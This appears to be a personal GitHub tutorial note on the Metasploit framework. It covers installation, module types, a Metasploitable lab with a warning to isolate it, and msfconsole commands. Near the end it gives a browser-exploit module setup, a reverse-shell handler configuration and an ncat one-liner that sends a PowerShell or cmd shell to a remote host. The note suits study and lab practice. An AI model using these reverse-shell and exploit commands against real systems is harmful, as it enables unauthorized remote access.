 <h5><em>Update: Aug-2022</em></h5>

<h2> Metasploit</h2>

<h3> Metasploit Project Intro.</h3>

<i>Refer to -> https://www.metasploit.com/</i>

<i>Tutorial: https://www.offensive-security.com/metasploit-unleashed/introduction/</i>

<h4> Installation</h4>

-   msf: CLI based metasploit framework (Kali Linux default program)
-   Armitage: Java-based GUI front-end for the metasploit framework

    ```sh
    # metasploit (mfsconsole): Kali Linux default
    # Armitage: need install
    sudo apt install armitage

    ```

<h4> Modules</h4>

1. Elxploits: modules that use payloads
2. Auxiliary: port scanners, fuzzers, sniffers, and more
3. Payloads: code that runs remotely
4. Encoders: Ensure that payloads make it to their destination intact
5. Nops: Keep the payload sizes consistent across exploit attempts
   <br/>

<h4> Lab Environment: Metasploitable</h4>

[Metasploitable 2 Exploitability Guide](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)

[Metasploitable 2 from SourceForge](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)

<h6><font color="red"> *** Never expose Metasploitable to an untrusted network, use NAT or Host-only mode ! ***</font></h6>
   <br/>

<h4> <font color="blue">msf</font> CLI</h4>

```sh
service postgresql start
msfconsole
banner
help

show exploits
show options
show payloads
show targets
show info

# use "module-name-you-want-to-use"
use exploit/windows/browser/adobe_flash_avm2
show options
set SRVPORT 80
set SRVHOST 192.168.0.1
exploit
back
exit


# search specific exploits matching keywords
search type:exploit platform:windows flash
search mysql

# reverse shell connection example
use exploit/multi/handler
show options
set PAYLOAD generic/shell_reverse_tcp
set LHOST xx.xx.xx.xx
set LPORT pppp
show options
exploit

# if the target is a Windows machine
>> ncat -nv xx.xx.xx.xx pppp -e powershell or cmd


```
